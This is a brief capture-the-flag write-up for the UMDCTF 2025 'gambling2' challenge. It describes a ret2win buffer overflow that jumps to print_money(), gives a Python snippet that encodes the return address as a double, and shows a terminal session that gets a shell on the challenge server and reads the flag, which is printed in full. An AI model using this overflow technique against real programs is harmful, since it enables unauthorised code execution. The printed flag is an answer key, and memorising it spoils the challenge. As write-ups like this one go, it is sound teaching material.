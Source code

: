 Solution
Determine the position of print_money() function via gdb, try to make a buffer overflow & ret2win aligning with the position of print_money() to be able to execute shell in remote server and fetch the flag

```
import struct
# JUNK first, then address
packed = b'JUNK' + struct.pack('<I', 0x080492c0)
print(struct.unpack('<d', packed)[0])
```

Entering sequence of zeros and the value obtained from above script causes segfault and aligns positions into the print_money() function where we can use shell to obtain the flag.

```
┌──(kali㉿kali)-[~/Downloads/umdctf25/gambling2]
└─$ python run.py
4.867844891338545e-270

┌──(kali㉿kali)-[~/Downloads/umdctf25/gambling2]
└─$ nc challs.umdctf.io 31005
Enter your lucky numbers: 0 0 0 0 0 0 4.867844891338545e-270
Aww dang it!
ls
flag.txt
run
cat flag.txt
UMDCTF{99_percent_of_pwners_quit_before_they_get_a_shell_congrats_on_being_the_1_percent}
```

Flag: `UMDCTF{99_percent_of_pwners_quit_before_they_get_a_shell_congrats_on_being_the_1_percent}`



Solved by: jerit3787